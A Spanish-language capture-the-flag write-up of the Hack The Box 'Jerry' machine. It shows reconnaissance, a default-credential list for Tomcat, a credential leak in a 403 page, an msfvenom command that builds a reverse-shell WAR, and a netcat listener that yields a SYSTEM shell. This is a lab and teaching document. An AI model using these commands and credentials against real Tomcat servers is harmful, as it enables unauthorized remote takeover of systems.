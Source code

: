```yaml
--- 
title: Jerry
os: Windows
dificultad: Facil
img: jerry/jerry_logo.png 
skills:
  - Web Enumeration
  - Enumerating Tomcat
  - Information Leakage
  - Abusing Tomcat WAR uploads (Privilege Escalation)
plataforma: Hackthebox 
description: Jerry es una máquina Windows de dificultad fácil que muestra cómo explotar Apache Tomcat, lo que conduce a un revert shell como el usuario NT Authority\SYSTEM, comprometiendo así por completo el objetivo.
--- 
```


### Descripción

Jerry es una máquina Windows catalogada con un nivel de dificultad fácil en la plataforma Hack The Box. Su principal enfoque es demostrar la explotación de Apache Tomcat, un servidor de aplicaciones ampliamente utilizado en entornos empresariales.

El reto comienza con un reconocimiento inicial que permite identificar el servicio Tomcat en ejecución y acceder a su panel de administración. A partir de ahí, se explora la posibilidad de autenticarse o abusar de configuraciones por defecto para desplegar un archivo malicioso (WAR). Este procedimiento conduce a la obtención de un reverse shell dentro del sistema.

Una vez establecido el acceso, se observa que el proceso comprometido se está ejecutando con privilegios elevados, específicamente como NT Authority\SYSTEM, la cuenta con mayor nivel de permisos en sistemas Windows. Esto implica un control total del objetivo

### Objetivos

#### Objetivo general

Comprender y aplicar técnicas de explotación en un entorno Windows vulnerable, utilizando debilidades en la configuración de Apache Tomcat, con el fin de obtener acceso privilegiado y comprometer completamente el sistema.

#### Objetivos Especificos

- Realizar un proceso de reconocimiento para identificar servicios expuestos y tecnologías en uso.
- Detectar la presencia del servidor Apache Tomcat y analizar posibles credenciales o configuraciones por defecto.
- Explorar la carga de archivos maliciosos (WAR) como vector de ataque para obtener un reverse shell.
- Validar el nivel de privilegios obtenidos y comprobar la ejecución bajo la cuenta NT Authority\SYSTEM. 


### Analisis de Vulnerabilidades

#### Reconocimiento Inicial

Se comenzó realizando un análisis inicial sobre el sistema, cuyo objetivo principal fue comprobar la disponibilidad y accesibilidad del equipo o servicio objetivo desde el segmento de red en el que se estaba operando. Esta verificación resultó fundamental para asegurar que la comunicación entre el host atacante y el sistema de destino fuera posible antes de iniciar fases más avanzadas de la evaluación. Para llevar a cabo esta tarea de reconocimiento preliminar, se emplearon herramientas de terminal ampliamente utilizadas en auditorı́as de seguridad:

**Ping**, para enviar solicitudes ICMP al host y confirmar su capacidad de respuesta, además de obtener información básica como ser el tipo de sistema operativo ya sea Windows o Linux mediante el **TTL**.

![Ejecución del comando ping](/jerry/ping.png)

**Nmap**, para efectuar un escaneo de puertos y servicios disponibles, identificando posibles puntos de entrada o servicios expuestos que pudieran ser analizados en etapas posteriores.

![Ejecución del comando ping](/jerry/nmap.png)

Este proceso inicial permitió obtener una visión general del estado de la red y del sistema objetivo, sirviendo como base para definir la estrategia y priorizar las acciones en las siguientes fases de la evaluación.

### Analisis de Vulnerabilidades

#### Reconocimiento Inicial

Seguidamente, una vez identificados los servicios activos en el sistema objetivo, se detecta la presencia del puerto 8080/TCP abierto. Dicho puerto corresponde a un servicio web gestionado por Apache Tomcat, un contenedor de servlets ampliamente utilizado en entornos corporativos para desplegar aplicaciones Java.

#### Puerto 8080 (Servicio Web)

Al ejecutar el comando **whatweb** desde la terminal, se obtiene información detallada acerca de las tecnologı́as y frameworks que utiliza el servicio web en el puerto correspondiente. El resultado de este análisis revela que el servicio está siendo ejecutando **Apache Tomcat** en su versión **7.0.88**

Apache Tomcat es un servidor de aplicaciones web de código abierto desarrollado por la Apache Software Foundation (ASF).
Su principal función es ejecutar aplicaciones web creadas en Java, ya que implementa de manera nativa las especificaciones de:

- Java Servlet
- JavaServer Pages (JSP)
- WebSocket
- Java Expression Language (EL)

En otras palabras, Tomcat actúa como un contenedor de servlets, permitiendo que las aplicaciones web escritas en Java puedan ejecutarse en un servidor.

Al acceder al servicio web vemos la pagina por defecto de Apache Tomcat:

[![Apache Tomcat](/jerry/tomcat01.png)](/jerry/tomcat01.png)

Al realizar una búsqueda de directorios utilizando la herramienta **Gobuster**, se logró identificar la existencia del directorio **/manager/** dentro del servicio web expuesto en el puerto 8080. Este hallazgo resulta especialmente relevante, ya que dicho directorio corresponde al **Tomcat Web Application Manager**, una interfaz de administración incluida en Apache Tomcat.

[![busqueda gobuster](/jerry/gobuster.png)](/jerry/gobuster.png)

Al navegar a la aplicación Manager, se muestra un inicio de sesión:

[![manager tomcat](/jerry/tomcatmanager.png)](/jerry/tomcatmaneger.png)

Al no disponer de credenciales válidas para acceder al panel de Manager de Apache Tomcat, se procedio a realizar una búsqueda en Internet enfocada en credenciales por defecto comúnmente configuradas en este tipo de entornos dando como resultado las siguientes credenciales:>

- tomcat:tomcat
- admin:admin
- manager:manager

Al realizar múltiples intentos de acceso al panel **Manager** utilizando credenciales no válidas, el servidor responde con una página de error **403 Access Denied**, indicando que el usuario no tiene permisos para acceder al recurso solicitado.

Curiosamente, en este escenario particular, la página de error no solo bloquea el acceso, sino que también **filtra información sensible**, mostrando indirectamente las credenciales válidas necesarias para autenticarse correctamente. Este tipo de comportamiento constituye una **fuga de información (information Leakage)**, ya que proporciona a un atacante datos que normalmente deberían permanecer confidenciales.

[![information leakage](/jerry/tomcaterror.png)](/jerry/tomcaterror.png)

Al ingresar las **credenciales válidas** obtenidas previamente, se logra acceder al **panel de control** del aplicativo Manager de Apache Tomcat. Esta interfaz proporciona un **entorno administrativo completo**, permitiendo al usuario autorizado gestionar todas las aplicaciones web desplegadas en el servidor.

[![panel de tomcat](/jerry/tomcatpanel.png)](/jerry/tomcatpanel.png)

Seguidamente, una vez autenticados en el panel Manager de Apache Tomcat, procedimos a realizar una búsqueda de vulnerabilidades asociadas al servidor y a su versión específica. Esta fase de investigación permite identificar posibles vectores de ataque que podrían aprovecharse para comprometer el sistema de manera más profunda.

Durante el análisis, se evaluaron aspectos como configuraciones inseguras, servicios adicionales expuestos, y la posibilidad de ejecutar código de manera remota. La investigación arrojó como resultado un método de intrusión efectivo: `la subida de un archivo WAR malicioso`.

Los archivos WAR (Web Application Archive) son paquetes que contienen aplicaciones Java completas listas para desplegar en un servidor Tomcat. Si se logra subir un WAR malicioso al panel Manager, este se ejecuta bajo los privilegios del proceso de Tomcat, permitiendo al atacante ejecutar comandos en el sistema operativo, obtener un shell remoto y, dependiendo de la configuración del servidor, incluso escalar privilegios.

[![subir archivo war](/jerry/war01.png)](/jerry/war01.png)

A continuación creamos nuestro war malicioso mediante msfvenom:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.x.x LPORT=443 -f war -o shell.war
```
Corroboramos que el archivo war fue subido exitosamente:

[![comprobacion del shell](/jerry/shell.png)](/jerry/shell.png)

y nos ponemos en escucha utilizando **netcat** en el puerto especificado en el arvhivo war, al ser windows tambien utilizamos en comando **rlwrap** para tener una shell semi-interactiva:

```bash
rlwrap nc -lnvp 443
```

Al darle clip a shell en el panel de control se ejecuta el archivo war y nos da una shell inversa:

[![revert shell](/jerry/terminal01.png)](/jerry/terminal01.png)

Luego mediante el comando **whoami** comprobamos que somos el usuario **nt authority\system**:

[![comprobación de usuario](/jerry/terminal02.png)](/jerry/terminal02.png)

Por ultimo nos dirigimos al directorio `C:\Users\Administrator\Desktop\flags` y listamos el archivo `2 for the price of 1.txt` en el cual se encuentran las flags de user y root.

